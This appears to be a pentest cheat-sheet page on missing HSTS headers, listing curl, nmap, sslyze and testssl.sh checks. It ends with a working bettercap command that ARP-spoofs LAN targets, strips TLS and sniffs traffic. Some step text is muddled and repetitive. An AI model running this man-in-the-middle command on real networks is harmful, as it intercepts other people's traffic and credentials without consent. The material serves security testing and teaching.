 # HTTP Strict Transport Security

## Check List

* [ ] Review the HSTS header and its validity.

## Cheat Sheet

### Methodology

#### Missing HSTS (HTTP Strict Transport Security) &#x20;

{% stepper %}
{% step %}
Access the Target URL and Inspect the Response Headers Use a tool such as **Burp Suite**, **cURL**, or **browser dev tools** to inspect the HTTP response headers The best way is to use this cheat sheet Example using cURL
{% endstep %}

{% step %}
Check for HSTS Header Confirm the absence of the following header in the server response `Strict-Transport-Security` The best way to exploit and exploit this vulnerability is to use a cheat sheet
{% endstep %}
{% endstepper %}

***

### Recon Header

#### [cURL](https://curl.se/)

```bash
curl -s -D- $WEBSITE | grep -i strict
```

#### [Nmap](https://nmap.org/)

```bash
nmap -sS -sV --mtu 5000 --script ssl-enum-ciphers $WEBSITE
```

### Scan Vulnerabilities

#### [sslyze](https://github.com/nabla-c0d3/sslyze)

```bash
sslyze $WEBSITE
```

#### [testssl.sh](https://github.com/drwetter/testssl.sh)

```bash
testssl $WEBSITE
```

### MitM

#### [Bettercap](https://www.bettercap.org/)

{% hint style="info" %}
Interface Network
{% endhint %}

```bash
INTERFACE=$(ip -o -4 addr show | awk '{print $2}' | grep -v "lo" | head -n 1)
```

{% hint style="info" %}
MitM on LAN
{% endhint %}

```bash
bettercap -iface $INTERFACE -eval "set arp.spoof.targets $TARGET; arp.spoof on; http.proxy on; http.proxy.sslstrip true; net.sniff on"
```
